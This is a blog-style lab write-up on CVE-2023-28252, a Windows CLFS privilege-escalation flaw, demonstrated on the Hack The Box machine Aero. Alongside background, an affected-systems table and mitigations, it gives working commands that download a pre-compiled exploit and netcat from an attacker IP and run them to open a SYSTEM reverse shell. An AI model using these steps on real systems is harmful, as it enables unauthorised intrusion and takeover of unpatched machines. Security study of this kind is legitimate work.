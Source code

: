 +++
title = "Understanding CVE-2023-28252: Deep Dive into the CLFS Privilege Escalation Vulnerability"
draft = false
tags = ["Windows", "Active Directory", "CVE-2023-28252", "CLFS"]
keywords = ["CLFS vulnerability", "Windows privilege escalation", "CVE-2023-28252 exploitation", "Common Log File System", "Windows kernel exploitation", "SYSTEM privilege escalation", "Windows security", "CLFS driver vulnerability", "Windows kernel driver", "Privilege escalation techniques"]
description = "A comprehensive guide to understanding and exploiting the CVE-2023-28252 vulnerability in Windows Common Log File System (CLFS). Learn about CLFS architecture, vulnerability details, and how to perform privilege escalation attacks using this critical Windows kernel vulnerability."
author = "bloodstiller"
date = 2024-11-05
toc = true
bold = true
next = true
+++

## Understanding CVE-2023-28252: A Deep Dive into CLFS Privilege Escalation {#understanding-cve-2023-28252-a-deep-dive-into-clfs-privilege-escalation}

CVE-2023-28252 represents a critical vulnerability in Microsoft's Common Log File System (CLFS) that allows local privilege escalation to SYSTEM.


### What is CLFS? {#what-is-clfs}

The Common Log File System (CLFS) is a logging subsystem introduced in Windows Server 2003 R2. Unlike traditional logging systems, CLFS provides:


#### Component Overview {#component-overview}

```text
CLFS Architecture:
├── Log Container
│   ├── Base Log File (.blf)
│   └── Container Files (.clf)
├── Stream Management
│   ├── Virtual Log Files
│   └── Log Blocks
└── Client Interface
    ├── User Mode API
    └── Kernel Mode API
```


#### Key Features {#key-features}

-   Transactional logging with ACID properties
-   High-performance sequential I/O operations
-   Crash recovery capabilities
-   Structured storage for log records


### Technical Deep Dive {#technical-deep-dive}


#### Vulnerability Details {#vulnerability-details}

The vulnerability exists in the CLFS driver (CLFS.SYS) and involves:

-   Memory allocation issues in the CLFS driver
-   Improper validation of user-controlled input
-   Potential for heap corruption leading to privilege escalation


### Real-World Exploitation Example {#real-world-exploitation-example}

-   This was performed on the hack the box machine Aero:
    -   <https://app.hackthebox.com/machines/Aero>


#### Available Proof of Concept {#available-proof-of-concept}

A pre-compiled exploit is available at:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows passing another binary as an argument for privileged execution


#### Initial Setup and Exploitation {#initial-setup-and-exploitation}

After discovering the target is vulnerable to CVE-2023-28252, we locate a suitable pre-compiled exploit:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows us to pass another binary as an argument, which is ideal for obtaining a reverse shell as NT/Authority

-   **Clone the Exploit**:
    ```bash
       git clone https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git
    ```

-   **Transfer Required Files to Target**:
    First, transfer the exploit:
    ```bash
       wget http://10.10.14.121:9000/exploit.exe -o ex.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194403_.png" >}}

    Then, transfer netcat for the reverse shell:
    ```bash
       wget http://10.10.14.121:9000/nc64.exe -o nc64.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194156_.png" >}}

-   **Setup Reverse Shell Listener**:
    On the attack machine:
    ```bash
       rlwrap -cAr nc -nvlp 443
    ```
    {{< figure src="/ox-hugo/2024-11-04-194636_.png" >}}

-   **Execute Exploit**:
    Trigger the exploit with netcat as the payload:
    ```bash
       .\ex.exe 1208 1 "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 443 -e cmd"
    ```
    {{< figure src="/ox-hugo/2024-11-04-194705_.png" >}}
    - **Command breakdown**:
        - `.\ex.exe`: The compiled exploit executable
        - `1208`: Process ID to target
        - `1`: Execution mode flag
        - Netcat parameters:
          - `10.10.14.121`: Attacker's IP address
          - `443`: Port to connect back to
          - `-e cmd`: Execute cmd.exe and bind it to the connection

-   **Confirm Privilege Escalation**:
    Successfully receive NT/Authority SYSTEM shell:
    - ![](/ox-hugo/2024-11-04-194750_.png)


### Impact Analysis {#impact-analysis}


#### Affected Systems Matrix: {#affected-systems-matrix}

| Windows Version | Architecture | Vulnerable |
|-----------------|--------------|------------|
| Server 2022     | x64          | Yes        |
| Server 2019     | x64          | Yes        |
| Windows 11      | x64          | Yes        |
| Windows 10      | x64          | Yes        |


### Detection and Prevention: {#detection-and-prevention}


#### Mitigation Strategies: {#mitigation-strategies}

1.  **System Updates**:
    -   Apply latest Windows security updates
    -   Enable automatic updates

2.  **Access Controls**:
    -   Implement principle of least privilege
    -   Monitor and restrict access to CLFS-related operations

3.  **System Monitoring**:
    -   Monitor for suspicious CLFS operations
    -   Track privilege escalation attempts


### References: {#references}

1.  [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-28252)
2.  [CVE-2023-28252 Details (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2023-28252)
3.  [Bleeping Computer Analysis](https://www.bleepingcomputer.com/news/security/windows-zero-day-vulnerability-exploited-in-ransomware-attacks/)
4.  [Duck-Sec's POC Repository](https://github.com/duck-sec/CVE-2023-28252-Compiled-exe)
5.  [Rapid7's](https://www.rapid7.com/blog/post/2023/04/11/patch-tuesday-april-2023/)
6.  [For a very deep dive Fortra.com](https://www.coresecurity.com/core-labs/articles/analysis-cve-2023-28252-clfs-vulnerability)
